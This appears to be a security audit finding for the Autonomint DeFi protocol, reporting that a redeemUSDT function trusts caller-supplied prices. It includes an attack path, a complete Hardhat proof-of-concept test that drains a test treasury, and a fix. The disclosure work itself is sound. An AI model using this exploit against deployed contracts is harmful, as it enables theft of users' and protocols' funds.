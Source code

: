 Shambolic Umber Cricket

High

# Malicious user will steal USDT from treasury

### Summary

Accepting arbitrary USDT & USDa price in `CDS.redeemUSDT` will cause stealing USDT from treasury as a malicious user will inflate USDT/USDa price ratio

### Root Cause

- In [`CDS.sol:506`](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/Core_logic/CDS.sol#L506), `redeemUSDT` accepts arbitrary prices for USDT and USDa
```solidity
function redeemUSDT(
    uint128 usdaAmount,
    uint64 usdaPrice,
    uint64 usdtPrice
)
```
- In [`CDSLib.sol:404`](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/lib/CDSLib.sol#L404), `usdtAmount` to be transferred from treasury to `msg.sender` is calculated as the following:
```solidity
uint128 usdtAmount = ((usdaPrice * usdaAmount) / usdtPrice);
```

A malicious user can inflate `usdaPrice / usdtPrice` to deplete all USDT from treasury.



### Internal pre-conditions

1. There should be some USDT locked in Treasury

### External pre-conditions

1. Attacker should possess some USDa

### Attack Path

1. Attacker acquires some USDa by depositing collateral to Borrowing contract
2. Attacker redeems USDT with inflated `usdtPrice` over `usdaPrice`. Ideally set to:

```math
usdtPrice = usdaPrice * treasuryUSDTBalance / attackerUSDaBalance
```

### Impact

The protocol suffers major fund loss.

### PoC

Consider the following exploit scenario:
- `alice` deposits 2000 USDT to `CDS`
- `eve` deposits 0.1 ETH to `Borrowing` and gets some USDa
- `eve` redeems USDT from `CDS` with inflated `usdtPrice / usdaPrice` ratio
- `eve` siphons more than 1999 USDT from `Treasury`

Put the following lines to [`BorrowingTest.ts`](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/test/BorrowingTest.ts#L4091):

```typescript
it.only("POC for steal USDT", async function () {
    const { CDSContractA, treasuryA, BorrowingContractA, TokenA, usdtA, globalVariablesA } = await loadFixture(deployer);
    const alice = user1;
    const eve = user2;
    const aliceFund = 2_000_000_000
    const eveFund = ethers.parseEther("0.1");
    await usdtA.mint(alice.getAddress(), aliceFund);
    await usdtA.connect(alice).approve(CDSContractA.getAddress(), aliceFund);

    const options = Options.newOptions().addExecutorLzReceiveOption(400000, 0).toHex().toString()
    let nativeFee = 0;
    [nativeFee] = await globalVariablesA.quote(1, 0, options, false)
    await CDSContractA.connect(alice).deposit(aliceFund, 0, true, aliceFund, 100000, { value: nativeFee.toString() });
    const timeStamp = await time.latest();
    await BorrowingContractA.connect(eve).depositTokens(
        90000,
        timeStamp,
        [1,
            110000,
            ethVolatility,
            1,
            eveFund],
        { value: (BigInt(eveFund) + BigInt(nativeFee)) }
    );
    const eveBalance = await TokenA.balanceOf(eve);
    let treasuryBalance = await usdtA.balanceOf(treasuryA.getAddress());
    console.log("Treasury USDT balance before: ", treasuryBalance);
    await TokenA.connect(eve).approve(CDSContractA.getAddress(), eveBalance);
    const PRECISION = 1000n;
    await CDSContractA.connect(eve).redeemUSDT(
        eveBalance, 
        treasuryBalance * PRECISION / eveBalance, 
        PRECISION,
        {value: BigInt(nativeFee)}
    );
    treasuryBalance = await usdtA.balanceOf(treasuryA.getAddress());
    console.log("Treasury USDT balance after: ", treasuryBalance);
    const eveUSDTBalance = await usdtA.balanceOf(eve);
    console.log("eve USDT balance: ", eveUSDTBalance);
    expect(eveUSDTBalance).to.be.gt(1_900_000_000);
})
```

And run the following command:
```console
npx hardhat test test/BorrowingTest.ts
```

Here are console outputs:
```console
Treasury USDT balance before:  2000000000n
Treasury USDT balance after:  21751n
eve USDT balance:  1999978249n
```

### Mitigation

USDa should be pegged to USDT at 1:1, like in [`CDSLib.sol:587`](https://github.com/sherlock-audit/2024-11-autonomint/blob/main/Blockchain/Blockchian/contracts/lib/CDSLib.sol#L587)

In that sense, `redeemUSDT` method should not accept arbitrary `usdaPrice` and `usdtPrice`